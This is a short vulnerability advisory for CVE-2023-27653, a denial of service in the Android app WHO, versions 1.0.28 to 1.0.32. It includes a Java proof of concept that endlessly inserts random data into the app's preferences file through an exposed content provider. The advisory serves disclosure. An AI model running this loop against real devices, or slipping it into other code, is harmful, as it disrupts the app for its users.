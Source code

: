 ## Denial of Service exists in WHO（CVE-2023-27653）

Vendor：WHO(https://www.whoapp.live/)

Affected product：Who(com.scorp.who)

Version：1.0.28, 1.0.30, 1.0.32 

Download link：https://play.google.com/store/apps/details?id=com.scorp.who

Description of the vulnerability for use in the CVE：An issue found in WHOv.1.0.28, v.1.0.30, v.1.0.32 allows an attacker to cause a denial of service via the SharedPreference files.



poc：

```java
public void attack(){
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    String randomString =getRandomString(512);
    Uri uri = Uri.parse("content://com.scorp.who.TTMultiProvider/t_sp/contain/" + "zztest" + "?sp_file_name=com.scorp.who_preferences");
    while (true) {
        ContentValues contentValues = new ContentValues();
        contentValues.put(randomString,randomString);
        contentResolver.insert(uri,contentValues);
    }
}
```



